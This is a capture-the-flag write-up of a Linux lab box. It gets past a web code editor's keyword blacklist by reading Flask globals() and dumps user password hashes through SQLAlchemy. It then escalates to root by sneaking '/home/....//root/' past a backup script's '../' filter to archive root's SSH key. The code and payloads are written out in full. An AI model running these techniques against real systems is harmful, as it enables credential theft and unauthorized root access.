Code
Code was an interesting Linux box that started with a Python code editor web application on port 5000. Initial reconnaissance revealed an online code execution environment with keyword blacklisting that prevented direct system command execution by blocking words like import, system, subprocess, and os. I bypassed the security controls by accessing Flask application globals through globals(), which exposed the SQLAlchemy database connection and User model. Using these objects, I extracted user credentials from the database, revealing two users: development:development and martin:nafeelswordsmaster. The MD5 password hashes were easily cracked using online tools.
SSH access was gained using martin's credentials, where I discovered sudo privileges to execute a backup script (backy.sh) as root. Analysis of the script revealed a flawed path sanitization mechanism that used regex to strip ../ sequences from JSON configuration files containing directories to archive. The script only allowed archiving paths under /var/ and /home/ directories.
I bypassed the regex by crafting a malicious JSON configuration with the path /home/....//root/, which after the ../ stripping became /home/../root/, effectively pointing to the root directory. This allowed me to backup the /root directory contents, including root's SSH private key. Using the extracted private key, I achieved full root access to the system, completing the privilege escalation chain.
User flag

The nmap scan reveals 2 ports. SSH on 22 and a website on 5000.
Enumerating the database and extracting users
It's a simple online code editor. It will execute any code written on the left pane and display the results on the right.

I tried to execute a system command, but was denied due to a blacklisted word.

I deduced that the words import, system, subprocess, and os are blacklisted. There are probably more, but these prevent me from getting easy code execution.
After that, I turned my attention to the global variables. There could be a few interesting things to see there, like some information about the database, which I'm assuming exists because there is a login/register functionality on the website.
I can get all of the global variables by running the script below.
global_variables = globals()
print(global_variables)
<SNIP>
'request': <Request 'http://10.10.11.62:5000/run_code' [POST]>,
'jsonify': <function jsonify at 0x7fce6b4d5c10>,
'redirect': <function redirect at 0x7fce6b33e3a0>,
'url_for': <function url_for at 0x7fce6b33e310>,
'session': <SecureCookieSession {}>,
'flash': <function flash at 0x7fce6b33e550>,
'SQLAlchemy': <class 'flask_sqlalchemy.extension.SQLAlchemy'>,
'sys': <module 'sys' (built-in)>,
'io': <module 'io' from '/usr/lib/python3.8/io.py'>,
'os': <module 'os' from '/usr/lib/python3.8/os.py'>,
'hashlib': <module 'hashlib' from '/usr/lib/python3.8/hashlib.py'>,
'app': <Flask 'app'>,
'db': <SQLAlchemy sqlite:////home/app-production/app/instance/database.db>,
'User': <class 'app.User'>,
'Code': <class 'app.Code'>,
'index': <function index at 0x7fce6a2788b0>,
'register': <function register at 0x7fce6a278b80>,
'login': <function login at 0x7fce6a278c10>,
'logout': <function logout at 0x7fce6a278ca0>,
<SNIP>
There are 2 variables that immediately caught my attention, User and db. With these two, connecting to the database should be possible, after which I'll be able to grab the user passwords.
User = globals()['User']
db = globals()['db']
all_users = User.query.all()
print(all_users)
The website runs on flask and uses sqlalchemy as an ORM for its database. I can use some built in utilities to traverse the DB and enumerate the users.

There are 2 users in the users table, but I need to refine the code in order to grab the proper information.
User = globals()['User']
db = globals()['db']
all_users = User.query.all()
output = ""
for user in all_users:
output += f"User: {getattr(user, 'username')}, Pass: {getattr(user, 'password')}\n"
print(output)
The added line will cause the script to browse through each user and grab their username + password.

User: development, Pass: 759b74ce43947f5f4c91aeddc3e5bad3
User: martin, Pass: 3de6f30c4a09c27fc71932bfc68474be
I've got the users development and martin. These look like MD5 hashes, so I'll navigate to crackstation first before using hashcat.

development | development
martin | nafeelswordsmaster
Development's credentials worked on the website, but there was nothing interesting revealed.
However, Martin's credentials worked for SSH authentication.

There is no user flag in Martin's home directory. It must be in app-production, but Martin can execute a script as root. I probably skipped a step or two and was supposed to pivot to Martin from app-production.
Examining the backup script
# backy.sh
#!/bin/bash
if [[ $# -ne 1 ]]; then
/usr/bin/echo "Usage: $0 <task.json>"
exit 1
fi
json_file="$1"
if [[ ! -f "$json_file" ]]; then
/usr/bin/echo "Error: File '$json_file' not found."
exit 1
fi
allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
/usr/bin/echo "$updated_json" > "$json_file"
directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')
is_allowed_path() {
local path="$1"
for allowed_path in "${allowed_paths[@]}"; do
if [[ "$path" == $allowed_path* ]]; then
return 0
fi
done
return 1
}
for dir in $directories_to_archive; do
if ! is_allowed_path "$dir"; then
/usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
exit 1
fi
done
/usr/bin/backy "$json_file"
This script takes in a task.json file, takes the directories_to_archive section, looks for the ../ string and strips it off from the data, in an attempt to prevent the users from reaching forbidden directories.
If the directory to archive does not contain /var/ or /home/, it'll error out.
{
"destination": "/home/martin/backups/",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/app-production/app"
],
"exclude": [
".*"
]
}
This is an example task.json file. I'll modify it to copy the contents of /home/app-production
{
"destination": "/home/martin/backups",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/app-production"
]
}

I will copy over the archive onto my box using scp.
scp martin@10.10.11.62:/home/martin/backups/code_home_app-production_2025_August.tar.bz2 .
Then, I will perform 2 operation on the archive to extract its contents. First, getting rid of the bzip extension.

This creates a .tar archive, which I can extract using tar -xf

Root flag
For the root flag, I'll keep using the backy script. I will backup the /root directory, but that'll require a few changes.
{
"destination": "/home/martin/",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/....//root/"
]
}
Since the regex in backy.sh strips off the ../ string, directories to archive will become /home/../root/, which is exactly what I want.
However, I could not get it working from the /tmp directory. Once I changed the original script at /home/martin/backups though, it worked flawlessly.

I transferred it and unpacked it the same way as the earlier archive.

chmod +600 id_rsa
I'll use the key to ssh into the box as root.
ssh -i id_rsa root@10.10.11.62

Rooted!